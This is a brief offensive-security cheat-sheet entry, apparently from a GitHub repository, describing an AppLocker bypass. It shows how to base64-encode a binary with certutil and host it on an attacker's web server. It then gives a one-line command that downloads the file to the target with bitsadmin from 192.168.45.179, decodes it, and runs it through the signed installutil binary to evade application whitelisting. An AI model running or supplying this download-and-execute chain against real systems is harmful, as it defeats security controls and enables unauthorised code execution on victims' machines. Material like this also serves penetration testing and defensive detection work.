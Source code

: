 # AppLocker Bypass PowerShell Runspace

1. Encode the binary into a (base64) text file with `CertUtil`.

```powershell
certutil -encode C:\Path\To\Binary.exe enc.txt
```

1. Upload and host the encoded binary `enc.txt` on the attackers web server.

1. We then run the following oneliner on the target to download, decode the encoded binary and use the combination of Microsoft-signed binaries to effectively bypass AppLocker.

```powershell
cmd.exe /c del C:\Windows\Tasks\enc.txt && del c:\Windows\Tasks\a.exe && bitsadmin /Transfer theJob http://192.168.45.179/enc.txt C:\Windows\Tasks\enc.txt && certutil -decode C:\Windows\Tasks\enc.txt C:\Windows\Tasks\a.exe && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\a.exe
```